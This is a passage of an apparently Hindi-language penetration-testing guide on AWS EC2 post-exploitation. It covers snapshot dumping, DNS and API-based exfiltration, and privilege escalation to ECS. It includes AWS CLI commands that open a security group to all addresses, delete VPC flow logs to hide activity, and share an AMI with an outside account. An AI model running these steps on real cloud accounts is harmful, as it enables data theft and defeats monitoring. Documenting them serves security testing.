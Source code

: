 **Snapshots वॉल्यूम के बैकअप हैं**, जो आमतौर पर **संवेदनशील जानकारी** रखेंगे, इसलिए इन्हें चेक करने से यह जानकारी प्रकट होनी चाहिए।\
यदि आप एक **वॉल्यूम बिना स्नैपशॉट** के पाते हैं, तो आप: **एक स्नैपशॉट बनाएं** और निम्नलिखित क्रियाएँ करें या बस **इसे एक इंस्टेंस में माउंट करें** खाते के अंदर:

{% content-ref url="aws-ebs-snapshot-dump.md" %}
[aws-ebs-snapshot-dump.md](aws-ebs-snapshot-dump.md)
{% endcontent-ref %}

### Data Exfiltration

#### DNS Exfiltration

भले ही आप एक EC2 को इस तरह लॉक कर दें कि कोई ट्रैफिक बाहर न जा सके, यह अभी भी **DNS के माध्यम से एक्सफिल्ट्रेट** कर सकता है।

* **VPC फ्लो लॉग इसे रिकॉर्ड नहीं करेंगे**।
* आपके पास AWS DNS लॉग्स तक पहुंच नहीं है।
*   इसे "enableDnsSupport" को false सेट करके बंद करें:

`aws ec2 modify-vpc-attribute --no-enable-dns-support --vpc-id <vpc-id>`

#### API कॉल के माध्यम से एक्सफिल्ट्रेशन

एक हमलावर एक खाते के API एंडपॉइंट्स को कॉल कर सकता है जिसे वह नियंत्रित करता है। क्लाउडट्रेल इन कॉल्स को लॉग करेगा और हमलावर क्लाउडट्रेल लॉग्स में एक्सफिल्ट्रेट की गई जानकारी देख सकेगा।

### Open Security Group

आप इस तरह पोर्ट खोलकर नेटवर्क सेवाओं तक आगे की पहुंच प्राप्त कर सकते हैं:

{% code overflow="wrap" %}
```bash
aws ec2 authorize-security-group-ingress --group-id <sg-id> --protocol tcp --port 80 --cidr 0.0.0.0/0
# Or you could just open it to more specific ips or maybe th einternal network if you have already compromised an EC2 in the VPC
```
{% endcode %}

### ECS के लिए प्रिवेस्क

एक EC2 इंस्टेंस चलाना और इसे ECS इंस्टेंस चलाने के लिए पंजीकृत करना संभव है और फिर ECS इंस्टेंस के डेटा को चुराना।

[**अधिक जानकारी के लिए इसे देखें**](../../aws-privilege-escalation/aws-ec2-privesc.md#privesc-to-ecs)।

### VPC फ्लो लॉग हटाएं
```bash
aws ec2 delete-flow-logs --flow-log-ids <flow_log_ids> --region <region>
```
### AMI साझा करें

{% code overflow="wrap" %}
```bash
aws ec2 modify-image-attribute --image-id <image_ID> --launch-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
### EBS स्नैपशॉट साझा करें
